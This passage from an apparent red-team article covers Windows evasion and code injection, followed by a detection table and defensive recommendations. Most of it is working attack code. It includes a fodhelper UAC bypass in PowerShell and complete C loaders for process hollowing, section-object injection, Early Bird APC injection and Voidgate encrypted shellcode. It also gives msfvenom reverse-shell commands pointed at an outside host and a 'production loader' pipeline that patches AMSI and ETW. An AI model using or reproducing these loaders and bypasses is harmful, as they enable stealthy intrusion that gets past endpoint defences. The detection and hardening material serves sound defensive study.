    # Write malicious command to HKCU (no admin required)
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force | Out-Null
    New-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
        -Name "DelegateExecute" -Value "" -Force | Out-Null
    Set-ItemProperty "HKCU:\Software\Classes\ms-settings\Shell\Open\command" `
        -Name "(default)" -Value $Command -Force

    # Trigger auto-elevated process — command runs at High integrity
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -Milliseconds 2000

    # Clean up registry keys
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}

# Usage: spawn a high-integrity shell
Invoke-FodhelperBypass -Command "cmd /c start cmd.exe"
```

---

## 6. Loader Development and Code Injection

### 6.1 Reflective DLL Injection

Reflective DLL injection (Stephen Fewer, 2008) embeds a `ReflectiveLoader` function inside the DLL that self-loads from memory without the Windows loader, leaving no entry in `PEB_LDR_DATA`:

```c
// ReflectiveLoader — scan backwards from RIP to find own PE MZ header
ULONG_PTR ReflectiveLoader(VOID) {
    ULONG_PTR uiLibraryAddress;

    __asm {
        call next_instruction
    next_instruction:
        pop uiLibraryAddress       // Get current RIP via call+pop trick
    }

    // Walk backwards until we hit the PE MZ signature
    while (TRUE) {
        if (((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_magic == IMAGE_DOS_SIGNATURE) {
            ULONG_PTR nt = uiLibraryAddress +
                ((PIMAGE_DOS_HEADER)uiLibraryAddress)->e_lfanew;
            if (((PIMAGE_NT_HEADERS)nt)->Signature == IMAGE_NT_SIGNATURE)
                break;
        }
        uiLibraryAddress--;
    }
    // Now: 1) Allocate SizeOfImage  2) Copy headers+sections
    //      3) Apply relocations     4) Resolve imports via PEB_LDR_DATA walk
    //      5) Call DllMain(DLL_PROCESS_ATTACH)
}
```

### 6.2 Process Hollowing

```c
#include <Windows.h>
#include <winternl.h>

typedef NTSTATUS(WINAPI* pNtQueryInformationProcess)(HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);
typedef NTSTATUS(WINAPI* pNtUnmapViewOfSection)(HANDLE, PVOID);

// Full process hollowing chain
void hollow_process(PBYTE malPeBuffer) {
    STARTUPINFOA si = {.cb = sizeof(si)};
    PROCESS_INFORMATION pi = {0};

    // 1. Create suspended victim
    CreateProcessA("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL,
        FALSE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, &si, &pi);

    // 2. Get PEB base via NtQueryInformationProcess
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    PROCESS_BASIC_INFORMATION pbi = {0};
    ((pNtQueryInformationProcess)GetProcAddress(hNtdll, "NtQueryInformationProcess"))
        (pi.hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

    // 3. Read current ImageBase from PEB+0x10 (x64)
    PVOID pebImageBase;
    ReadProcessMemory(pi.hProcess, (PBYTE)pbi.PebBaseAddress + 0x10,
        &pebImageBase, sizeof(PVOID), NULL);

    // 4. Unmap the legitimate image
    ((pNtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection"))
        (pi.hProcess, pebImageBase);

    // 5. Allocate + write malicious PE at same base
    PIMAGE_NT_HEADERS malNtHdrs = (PIMAGE_NT_HEADERS)(malPeBuffer +
        ((PIMAGE_DOS_HEADER)malPeBuffer)->e_lfanew);
    LPVOID remoteBase = VirtualAllocEx(pi.hProcess, pebImageBase,
        malNtHdrs->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(pi.hProcess, remoteBase, malPeBuffer,
        malNtHdrs->OptionalHeader.SizeOfHeaders, NULL);

    PIMAGE_SECTION_HEADER sec = IMAGE_FIRST_SECTION(malNtHdrs);
    for (int i = 0; i < malNtHdrs->FileHeader.NumberOfSections; i++, sec++)
        WriteProcessMemory(pi.hProcess, (PBYTE)remoteBase + sec->VirtualAddress,
            malPeBuffer + sec->PointerToRawData, sec->SizeOfRawData, NULL);

    // 6. Update PEB ImageBase + thread RIP, then resume
    WriteProcessMemory(pi.hProcess, (PBYTE)pbi.PebBaseAddress + 0x10,
        &remoteBase, sizeof(PVOID), NULL);

    CONTEXT ctx = {.ContextFlags = CONTEXT_FULL};
    GetThreadContext(pi.hThread, &ctx);
    ctx.Rip = (DWORD64)((PBYTE)remoteBase +
        malNtHdrs->OptionalHeader.AddressOfEntryPoint);
    SetThreadContext(pi.hThread, &ctx);
    ResumeThread(pi.hThread);
}
```

### 6.3 Section Object Injection (RW/RX — No RWX Flag)

This technique maps shellcode into the target with `PAGE_EXECUTE_READ` — no RWX flag ever appears in the target process:

```c
// NtCreateSection + NtMapViewOfSection injection
// Local view: PAGE_READWRITE (for writing shellcode)
// Remote view: PAGE_EXECUTE_READ (no RWX in target!)

HANDLE hSection;
LARGE_INTEGER sectionSize = { .QuadPart = sizeof(shellcode) };
NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, &sectionSize,
    PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

// Map RW into local process
PVOID localView = NULL; SIZE_T viewSize = 0;
NtMapViewOfSection(hSection, GetCurrentProcess(), &localView,
    0, 0, NULL, &viewSize, ViewUnmap, 0, PAGE_READWRITE);

// Map RX into target (no WriteProcessMemory call required)
PVOID remoteView = NULL;
NtMapViewOfSection(hSection, hTargetProcess, &remoteView,
    0, 0, NULL, &viewSize, ViewUnmap, 0, PAGE_EXECUTE_READ);

// Write shellcode locally — automatically reflected in target's RX page
memcpy(localView, shellcode, sizeof(shellcode));

// Execute in target — no RWX flag, no WriteProcessMemory telemetry
HANDLE hRemoteThread;
RtlCreateUserThread(hTargetProcess, NULL, FALSE, 0, 0, 0,
    remoteView, NULL, &hRemoteThread, NULL);
```

### 6.4 Early Bird APC Injection

Shellcode executes in the target before the EDR's monitoring DLL is injected, because EDR DLL injection occurs asynchronously in response to the process creation callback:

```cpp
#include <Windows.h>

int main() {
    // msfvenom -p windows/x64/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 -f c
    unsigned char buf[] = "\xfc\x48\x83\xe4\xf0..."; // shellcode bytes
    SIZE_T shellSize = sizeof(buf);

    STARTUPINFOA si = {.cb = sizeof(si)};
    PROCESS_INFORMATION pi = {0};

    // Create sacrificial process in suspended state
    CreateProcessA("C:\\Windows\\System32\\calc.exe", NULL, NULL, NULL, FALSE,
        CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    // ↑ At this point: thread suspended, EDR DLL NOT YET INJECTED

    // Allocate + write shellcode
    LPVOID shellAddr = VirtualAllocEx(pi.hProcess, NULL, shellSize,
        MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, shellAddr, buf, shellSize, NULL);

    // Queue shellcode as APC — fires BEFORE EDR DllMain runs
    QueueUserAPC((PAPCFUNC)shellAddr, pi.hThread, NULL);

    // Resume thread → APC executes first (Early Bird effect)
    ResumeThread(pi.hThread);
    return 0;
}
```

**With full syscall unhooking** (SysWhispers3 — makes the setup phase invisible to EDR):

```c
// Replace Win32 APIs with direct syscall equivalents
PVOID baseAddress = NULL; SIZE_T regionSize = shellSize;
NtAllocateVirtualMemory(pi.hProcess, &baseAddress, 0, &regionSize,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

SIZE_T written;
NtWriteVirtualMemory(pi.hProcess, baseAddress, shellcode, shellSize, &written);
NtQueueApcThread(pi.hThread, (PPS_APC_ROUTINE)baseAddress, NULL, NULL, NULL);

ULONG suspendCount;
NtResumeThread(pi.hThread, &suspendCount);
```

### 6.5 Voidgate — Per-Instruction Encrypted Shellcode

Voidgate limits the decrypted surface to exactly **16 bytes** (one max-length x64 instruction) at any instant — making periodic memory scanner snapshots effectively useless:

```c
// Voidgate — per-instruction XOR decryption via VEH + SINGLE_STEP trap
PVOID g_encryptedBase;
PVOID g_lastDecrypted;

LONG WINAPI VoidgateVEH(PEXCEPTION_POINTERS pEx) {
    if (pEx->ExceptionRecord->ExceptionCode == EXCEPTION_SINGLE_STEP) {
        ULONG64 rip = pEx->ContextRecord->Rip;

        // Re-encrypt the previously decrypted instruction
        if (g_lastDecrypted)
            XorEncrypt(g_lastDecrypted, 16, XOR_KEY);

        // Decrypt next 16 bytes (≤1 instruction) at current RIP
        XorEncrypt((PVOID)rip, 16, XOR_KEY);
        g_lastDecrypted = (PVOID)rip;

        pEx->ContextRecord->EFlags |= 0x100; // Set Trap Flag → next SINGLE_STEP
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

void ExecuteVoidgate(PBYTE encryptedShellcode, SIZE_T size) {
    g_encryptedBase = VirtualAlloc(NULL, size + 32, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(g_encryptedBase, encryptedShellcode, size);

    AddVectoredExceptionHandler(1, VoidgateVEH);

    // Set HWBP on shellcode entry point (DR0 execute breakpoint)
    CONTEXT ctx = {.ContextFlags = CONTEXT_DEBUG_REGISTERS};
    GetThreadContext(GetCurrentThread(), &ctx);
    ctx.Dr0 = (ULONG64)g_encryptedBase;
    ctx.Dr7 = 0x1; // DR0 local execute
    SetThreadContext(GetCurrentThread(), &ctx);

    // Transfer control — HWBP fires immediately, VEH takes over
    ((void(*)())g_encryptedBase)();
}
```

Preparing a payload for Voidgate:

```bash
# 1. Generate raw shellcode
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 \
    -f raw -o shell.bin

# 2. XOR-encrypt with the Voidgate encryptor tool
./VoidgateEncryptor.exe shell.bin

# 3. Embed encrypted bytes into main.cpp, compile, deploy
# At runtime: only 16 bytes are ever decrypted at one time
```

### 6.6 Production Loader Pipeline

A complete production shellcode loader combining all evasion layers:

```mermaid
flowchart LR
    A["① AES-256 encrypted shellcode blob"] --> B["② SysWhispers3\nResolve SSNs at runtime"]
    B --> C["③ AMSI patch\n(HWBP/byte)"]
    C --> D["④ ETW patch\n(NtTraceEvent ret)"]
    D --> E["⑤ NtAllocateVirtualMemory RW\n(no RWX)"]
    E --> F["⑥ AES-256 decrypt\ninto RW buffer"]
    F --> G["⑦ NtProtectVirtualMemory\nRW → RX"]
    G --> H["⑧ Early Bird APC\ninto sacrificial process"]
    H --> I["⑨ Beacon sleeps with\nEkko/Hypnus encryption"]
    I --> J["⑩ HTTPS/DoH C2\ncertificate pinning"]
```


_Production loader pipeline — no RWX, no hooks, no signatures at any stage_

---

## 7. Detection Landscape

| Technique | Primary Telemetry | High-Fidelity Indicator | Most Effective Control |
|---|---|---|---|
| BYOVD Callback Unlinking | Kernel callbacks / ETW | Known-bad driver load; callback array zeroing | HVCI + KMCI Driver Blocklist |
| Direct Syscalls | ETW TI / stack walk | Unbacked syscall return address | Kernel-side stack validation |
| Indirect Syscalls | ETW TI / stack walk | SSN from hooked stub; unusual gadget use | Hypervisor stack inspection |
| AMSI Patch (bytes) | VirtualProtect telemetry | Write to amsi.dll .text section | MsMpEng memory integrity polling |
| AMSI Patch (HWBP) | Debug register monitoring | DR0-DR3 on sensitive API | Kernel debug register audit |
| ETW Patch | ETW loss detection | No TI events from process | Kernel ETW provider write-protection |
| Reflective DLL | Module list / memory scan | PE header in non-backed memory | Module integrity comparison |
| Process Hollowing | Module list / hooks | NtUnmapViewOfSection on own image | Behavioral EDR correlation |
| Module Stomping | Content comparison | In-mem .text ≠ on-disk .text | Periodic module page scan |
| Section Object Injection | NtMapViewOfSection audit | Cross-process RX section map + thread | NtMapViewOfSection monitoring |
| Early Bird APC | ETW TI / thread events | APC before EDR DLL injection | Kernel thread-init monitoring |
| Voidgate | SINGLE_STEP rate anomaly | Excessive SINGLE_STEP exceptions | Perf counter behavioral analysis |
| Golden Ticket | Kerberos log (absent 4769) | No TGS request, direct service auth | PAC validation; Event 4627 delta |
| Silver Ticket | Event 4624 at target | Group SIDs inconsistent with AD | PAC enabled; AD cross-correlation |
| WMI Persistence | Sysmon 19/20/21 | New subscription in root\subscription | ASR rules; WMI provider audit |
| Handle-Free LSASS | Process fork telemetry | NtCreateProcessEx fork of lsass.exe | Credential Guard; LSASS PPL |
| UAC Bypass (fodhelper) | Registry + process telemetry | HKCU ms-settings + auto-elevated parent | UAC = Always Notify; ASR |

---

## 8. Conclusion and Recommendations

The five technical domains examined in this paper compose a coherent attack chain whose stages each address specific monitoring and detection boundaries. The BYOVD kernel write primitive provides the foundation — it removes callback-based visibility, enables ETW provider suppression, facilitates PPL downgrade, and creates the kernel context within which EPROCESS manipulation and credential extraction operate entirely beneath the monitoring horizon. Upon this foundation, userland techniques — VEH-based indirect syscalls, section object injection, Early Bird APCs, and Voidgate encrypted execution — construct a payload delivery mechanism that avoids every observable indicator produced by standard Win32 API usage patterns.

Five prioritized defensive recommendations emerge from this analysis:

1. **Deploy HVCI on all endpoints** (Windows 11 22H2+). This is the single most leverage-providing defensive control — it moves code integrity enforcement to the hypervisor, outside the reach of kernel-mode malicious code. BYOVD attacks become substantially more expensive under HVCI.

2. **Enable and maintain the Microsoft Vulnerable Driver Blocklist** (KMCI policy + Secure Boot). The blocklist prevents known-vulnerable signed drivers from loading, forcing adversaries to source previously undisclosed driver vulnerabilities.

3. **Rotate KRBTGT twice after any suspected domain compromise** and enforce AES encryption for Kerberos. Enable PAC validation on all domain services. Deploy Microsoft Defender for Identity (MDI) with anomalous Kerberos ticket alerting configured.

4. **Shift EDR behavioral analytics from signature matching to sequence modeling.** Per-instruction encryption (Voidgate) and sleep obfuscation (Ekko/Hypnus) have neutralized periodic memory scanning. Detection must target behavioral sequences: unusual timer queue creation, VirtualProtect cycling, SINGLE_STEP exception rate anomalies, and cross-process section mapping patterns.

5. **Enable Credential Guard and LSASS PPL** on all systems handling privileged credentials. This forces credential dumping into higher-complexity paths (kernel memory access, physical memory, shadow copies) that carry stronger detection signals than direct LSASS handle access.

> For authorized adversary simulation engagements: assess HVCI and driver blocklist coverage *first*, assume all standard injection techniques are detected (use section-object injection with syscall unhooking as default), prioritize handle-free credential extraction over direct LSASS access, and prefer Kerberos ticket operations over NTLM relay wherever possible.
{: .prompt-tip }

---

*All techniques described in this post are documented from authorized penetration testing research and publicly available security research. This content is intended exclusively for academic study, authorized red team operations, and defensive security improvement. Practitioners must comply with applicable laws and hold explicit written authorization before employing any technique described herein.*
